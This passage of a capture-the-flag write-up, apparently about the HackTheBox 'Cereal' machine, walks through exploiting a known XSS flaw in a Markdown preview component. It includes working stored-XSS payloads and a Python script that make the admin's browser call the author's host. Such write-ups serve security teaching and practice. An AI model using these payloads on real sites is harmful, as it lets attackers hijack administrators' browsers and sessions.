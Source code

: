 
This part caught my eye:



    <MarkdownPreview markedOptions={{ sanitize: true }} value={requestData.title} />



This code is looping over the cereal requests from the GET all request,
and passing the title into the vulnerable function.

#### POC

The POC on the [vulnerability
advisory](https://www.npmjs.com/advisories/668) looked like:



    <MarkdownPreview
    markedOptions={{ sanitize: true }}
    value={'[XSS](javascript: alert`1`)'}
    />



That suggests that if I can set a cereal title to
`[XSS](javascript: [code])` and then someone looks at the admin page, I
should get XSS.

It took some playing around with the payload, but I got this to work:



    [XSS](javascript: document.write%28%27<img src=%22http://10.10.14.15/0xdf.png%22 />%27%29)



Characters like `'"()` all throw off the Markdown tag, so I'll encode
them. On sending that as the title, a few minutes later there was a hit
on my Python webserver:



    10.10.10.217 - - [25/Apr/2021 17:05:12] code 404, message File not found
    10.10.10.217 - - [25/Apr/2021 17:05:12] "GET /0xdf.png HTTP/1.1" 404 -



That proves not only that there is a user (or really some kind of
automation) checking the admin page, but that the exploit works.

I'll next try to convert that to a script tag, and prove to myself it
works by trying to get it to request something from my VM. For this
testing, it was easier to work out of a Python script to save what I was
trying.

I couldn't get `<script src='[url of my host]'></script>` to work. I
also couldn't get an `XMLHttpRequest` to my host to work. I *think*
that's a Same Origin policy issue. I was able to redirect the page to my
webserver by setting `window.location`:



    xss_payload = {"json":"{\"title\":\"[XSS](javascript: document.write%28%22<script>window.location = 'http://10.10.14.15/location';</script>%22%29)\",\"flavor\":\"bacon\",\"color\":\"#FFF\",\"description\":\"\"}"}
    resp = requests.post(f'https://{target}/requests', json=xss_payload, headers=headers, verify=False)
    print(resp.text)  
